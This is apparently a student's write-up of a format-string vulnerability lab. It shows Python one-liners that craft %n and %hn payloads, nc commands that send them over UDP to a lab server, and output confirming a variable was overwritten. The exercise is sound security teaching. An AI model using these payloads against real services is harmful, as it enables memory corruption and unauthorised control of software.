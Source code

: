 ## Task 5.B

0x500 - 0x4 = 0x4FC = 1276
```
python -c 'print "\x44\xa0\x04\x08%1276x%80$n"' > badfile
nc -u 10.0.2.4 9090 < badfile
```

```
The ebp value inside myprintf() is: 0xbffff038
...
0
The value of the 'target' variable (after): 0x00000500
```

## Task 5.C

$$0xFF99 - 8 = 0xFF91 = 65425$$

$$0x10000 - 0xFF91 - 8 = 0x67 = 103$$

```
python -c 'print "\x46\xa0\x04\x08\x44\xa0\x04\x08%65425x%80$hn%103x%81$hn"' > badfile
nc -u 10.0.2.4 9090 < badfile
```

![Change the target into `FF990000`](./ff9900.png)

